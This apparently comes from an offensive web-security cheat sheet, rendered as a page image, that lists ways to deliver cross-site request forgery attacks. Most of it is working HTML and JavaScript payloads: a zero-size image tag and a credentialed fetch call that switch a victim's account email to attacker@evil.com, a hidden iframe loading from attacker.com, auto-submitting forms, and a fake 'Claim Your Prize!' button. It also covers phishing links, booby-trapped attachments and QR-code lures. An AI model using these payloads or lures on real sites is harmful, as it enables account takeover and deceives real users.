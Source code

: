 - **CSRF execution and delivery techniques**
  - **Basic HTML injection methods**
    - Self-contained IMG tags:
      ```html
      <img src="https://victim.com/account/settings?email=attacker@evil.com" width="0" height="0" border="0">
      ```
    - Invisible iframes for complex exploitation:
      ```html
      <iframe src="https://attacker.com/csrf-frame.html" style="position:absolute;top:-1000px;left:-1000px;width:1px;height:1px;"></iframe>
      ```
    - Form autosubmission techniques:
      ```html
      <body onload="document.forms[0].submit()">
        <form action="https://victim.com/api/settings" method="POST">
          <!-- form fields -->
        </form>
      </body>
      ```
    - XHR/Fetch requests with credentials:
      ```html
      <script>
        fetch('https://victim.com/api/settings', {
          method: 'POST',
          credentials: 'include',
          headers: {'Content-Type': 'application/x-www-form-urlencoded'},
          body: 'email=attacker@evil.com'
        });
      </script>
      ```

  - **Social engineering delivery**
    - Disguised interaction buttons:
      ```html
      <style>
        .prize-button {
          background: linear-gradient(to bottom, #ffcc00, #ff9900);
          border-radius: 10px;
          padding: 15px 30px;
          font-size: 20px;
          color: #fff;
          text-shadow: 1px 1px #000;
          cursor: pointer;
        }
      </style>
      <button class="prize-button" onclick="document.getElementById('csrf-form').submit()">Claim Your Prize!</button>
      <form id="csrf-form" action="https://victim.com/api/settings" method="POST" style="display:none">
        <!-- form fields -->
      </form>
      ```
    - Email-based delivery (HTML email clients):
      ```html
      <a href="https://attacker.com/csrf.html">Click here to verify your account</a>
      ```
    - Malicious attachments:
      - HTML files with embedded CSRF payloads
      - PDF documents with JavaScript (for compatible readers)
    - QR code exploitation:
      - Generate QR code linking to CSRF exploit page
      - Present QR code in legitimate-seeming context
